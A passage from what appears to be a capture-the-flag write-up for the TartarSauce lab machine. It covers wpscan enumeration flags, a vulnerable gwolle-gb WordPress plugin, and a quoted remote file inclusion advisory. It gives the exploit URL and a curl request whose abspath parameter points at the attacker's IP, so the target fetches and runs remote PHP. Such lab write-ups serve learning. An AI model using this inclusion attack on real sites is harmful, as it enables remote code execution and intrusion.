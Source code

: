 - -e for enumerate, at = all themes, ap = all plugins, u = users, cb = config backups
- --url URL where the wordpress site is hosted.
- --plugin-detection aggressive = aggressively scans for plugins
- --plugin-detection-version = aggressive, aggressively scan for plugin versions
- -t for theads
- -o for output file.

- wpscan has a lot of flags so it can be tuned precisely for each scan.


![Vuln Plugin](/Tartarsauce/images/wpscan.png) 

- Viewing the output of wpscan I found this vulnerable plugin running on the target and after googling a bit there are serveral vulnerabilities associated with this plugin.



![plugin](/Tartarsauce/images/gwolle.png) 

- I found this info about the exploit: 

> - HTTP GET parameter "abspath" is not being properly sanitized before being used in PHP require() function. A remote attacker can include a file named 'wp-load.php' from arbitrary remote server and execute its content on the vulnerable web server. In order to do so the attacker needs to place a malicious 'wp-load.php' file into his server document root and includes server's URL into request:
        
- http://[host]/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]     


- In order to exploit this vulnerability 'allow_url_include' shall be set to 1. Otherwise, attacker may still include local files and also execute arbitrary code.

- Im going to start a python listener on my kali box and make a curl request for http://tartarsauce.htb/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.240 



![plugin](/Tartarsauce/images/curl.png) 
